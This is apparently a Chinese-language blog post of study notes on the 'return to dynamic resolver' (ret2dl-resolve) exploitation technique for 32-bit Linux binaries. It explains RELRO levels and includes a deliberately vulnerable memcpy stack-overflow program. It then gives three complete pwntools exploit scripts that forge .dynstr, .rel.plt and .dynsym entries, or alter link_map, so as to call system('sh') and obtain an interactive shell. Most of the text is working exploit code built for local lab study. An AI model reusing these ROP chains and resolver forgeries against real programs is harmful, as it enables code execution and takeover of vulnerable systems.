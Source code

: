 ```yaml
---
layout: post
title: return to Dynamic Resolver
excerpt: "return to Dynamic Resolver"
categories: [未完待续]
comments: true
---
```


#### return to Dynamic Resolver
不需要leak information和libc版本


RELRO:Relocation Read Only
- No RELRO : 所有相关的data structure几乎都能写
- Partial RELRO : .dynamic 、.dynsym、.dynstr等只能读(这个是gcc默认值)
- Full RELRO：所有的symbol载入时解析已经完成，GOT只读，没有link_map和resolver的指标

##### Leakless基本要求
- 非Full ASLR，probgram本身的memory layout要已知
- 通常有information leak时，使用DynELF会比较方便

#### No RELRO
伪造.dynstr
- readelf找出.dynamic中DT_STRTAB的位置,并改变它的值
- 把原本的.dynstr指向一个可控制的buffer,在buffer上放system的字串
- 跳一个还没有resolver过的symbol



#### ld的修改
可以`vim a.out`,然后该其中的ld


漏洞代码
```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

char buf[1000000];

int main() {
  char local[10];
  int len = read(0, buf, sizeof(buf));
  memcpy(local, buf, len);
  return 0;
}
```
通过`readelf -a no | less`查看到STRTAB是Dynamic的从零起第八个
```
Dynamic section at offset 0x604 contains 24 entries:
  标记        类型                         名称/值
 0x00000001 (NEEDED)                     共享库：[libc.so.6]
 0x0000000c (INIT)                       0x80482b4
 0x0000000d (FINI)                       0x80484e4
 0x00000019 (INIT_ARRAY)                 0x80495f8
 0x0000001b (INIT_ARRAYSZ)               4 (bytes)
 0x0000001a (FINI_ARRAY)                 0x80495fc
 0x0000001c (FINI_ARRAYSZ)               4 (bytes)
 0x6ffffef5 (GNU_HASH)                   0x804818c
 0x00000005 (STRTAB)                     0x804820c
```
所以`dynamic_dynstr = dynamic + 8 * 8 `

memcpy结构
```
----------------
memcpy          |	原本的return addr
----------------|
new return addr |
----------------|
arg 1           |
----------------|
arg 2           |
----------------|
arg 3           |
----------------|

```

norelo最终代码(伪造.dynstr)
```python
from pwn import *

context.arch='i386'
r = process('./no')

read = 0x80482f0        #objdump -d no | grep read
memcpy = 0x8048300      #objdump -d no | grep memcpy
plt0 = 0x80482e0        #readelf -aW no |grep .plt
pop3 = 0x80484d9        #ROPgadget --binary no | less
pop2 = 0x80484da        #ROPgadget --binary no | less
pop1 = 0x80484db        #ROPgadget --binary no | less
gmon = 0x08048310       #08048310 <__gmon_start__@plt> 一个没有调用过的方法的位置    objdump -d no |grep __gmon_start__

buf = 0x8049740         #gdb-peda$ p &buf
d = buf + 2048          #这个指向的data的位置

dynamic = 0x08049604        #readelf -a no | grep dynamic
dynamic_dynstr = dynamic + 8 * 8        #dynamic中的第八个指向的是dynamic_dynstr

rop = flat(
    memcpy, pop3, dynamic_dynstr + 4, d, 4,     #这个就是从d(data)这里开始memcpy 4个byte,到dynamic_dynstr + 4,其中memcpy这个是return address
    gmon, 0xdeadbeef, d + 12   #d+12是'sh' 字串的位置             跳到__gmon_start__这个没有调用过的function,0xdeadbeef为call完之后的return address
    )

data = flat(
    d + 4 - 56,  # __gmon_start__中str+offset中offset为0x38,即56                #!!!!这个是strtab的指针,例如该值为0x41414141,那么0x41414141指向的值就是strtab
    'system\x00\x00' #__gmon_start__中str+offset指向了这个值
    'sh\x00'                                    #这个就是system的参数
    )

raw_input('@')
r.send(('A'*18 + p32(buf+1024+4)).ljust(1024, '\0') + rop.ljust(1024, '\0') + data)

r.interactive()
```

#### parti relo

伪造`.rel.plt`的enrty 
- 传一个特大的reloc_arg进去,使得.rel.plt+relog_arg落在可控的记忆体上,而`rel.plt`中有`offset和info(index索引)`,给index一个特大的值,使symtab进入到可控记忆体的位置,使`.dynstr + st_name`处放'system\0'

这个就是由于.dystr不可改,所以给一个巨大的reloc_arg让.dynsym落在可控区域,然后再伪造dynsym的st_name,使`.dynstr + st_name`落在可控区域,最终的exp
```python
from pwn import *

context.arch='i386'
r = process('./partial')

plt0 = 0x8048300
buf = 0x804a060
d = buf + 2048
relplt = 0x80482b4
dynsym = 0x80481cc
dynstr = 0x804822c

rop = flat(
    plt0, d - relplt, 0xdeadbeef, d + 36,   #直接跳到plt[0],d - relplt为plt0之前的参数,该参数可以让rel.plt直接落在data位置上,   d + 36指向了" sh"
    )
data = flat(
    [buf, 0x07 | (((d+12-dynsym)/16)<<8)], 0, # Elf32_Rel结构,其中的索引让symtab指向了像一行伪造的Elf32_Sym
    [d+28-dynstr, 0, 0, 0x12],  # 伪造的Elf32_Sym,构造虚假的偏移,让 .dynstr + offset 指向了下一行的system
    'system\x00\x00', # d+36
    'sh\x00'
    )
r.send(('A'*18 + p32(buf+1024+4)).ljust(1024, '\0') + rop.ljust(1024, '\0') + data)
r.interactive()
```
注意:`gnu.version[r_info>>8]`要为0

#### part 修改link_map
最终的exp
```python
#coding=utf-8
from pwn import *

context.arch='i386'

r = process('./partial')

# partial ver
memcpy = 0x8048320
pop3 = 0x80484f9
got1 = 0x804a004
gmon = 0x8048330

buf = 0x804a060
s = buf + 1024
d = buf + 2048

rop = flat(
    memcpy, pop3, s+32, got1, 4,  # 20          copy link_map
    memcpy, pop3, buf, 0x00, 56,  # 40          
    memcpy, pop3, buf+52, d, 4,   # 60
    memcpy, pop3, s+88, got1, 4,  # 80
    memcpy, pop3, 0x00, buf, 56,  # 100
    gmon, 0xdeadbeef, d + 20,
    )

data = flat(
    d+4, # 4
    [5, d+12-56], # 12
    'system\x00\x00', # 20
    'sh\x00'
    )

raw_input('#')
r.send(('A'*18 + p32(buf+1024+4)).ljust(1024, '\0') + rop.ljust(1024, '\0') + data)
r.interactive()
```
2:47